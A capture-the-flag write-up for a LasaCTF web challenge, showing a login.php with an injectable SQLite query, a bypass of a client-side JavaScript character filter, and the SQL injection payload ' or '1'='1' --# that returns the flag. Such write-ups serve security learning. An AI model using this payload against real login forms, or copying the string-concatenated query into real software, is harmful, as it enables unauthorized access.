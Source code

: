 ###Solved by bitvijays

Client Side

Kyle didn't think his login form was secure enough, so he added Javascript! Smart Right? http://web.lasactf.com:63017

Going to the website provided us with the

```
Log In

Username: 

Password:

Login
Error, invalid characters detected
login.php source
```

As login.php source is provided it is quite clear that the sql injection exists
```
<?php
  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $query = "SELECT * FROM users WHERE name='$username' AND password='$password'";
  $result = $con->query($query);
  $row = $result->fetchArray();

  if ($row) {
    echo "<h1>Logged in!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  } else {
    echo "<h1>Login failed.</h1>";
  }
?>
```

But we enter ' , the client side javascript says "Invalid characters detected"

This can be taken care by using NoScript in Iceweasel or disabling javascript or by intercepting in burp suite.

On entering ' or '1'='1' --# in the login after disabling javascript.

It provides the flag

```
Logged in!

Your flag is: lasactf{cl1ent_sid3_b3st_s1de}
```

The flag is **lasactf{cl1ent_sid3_b3st_s1de}**
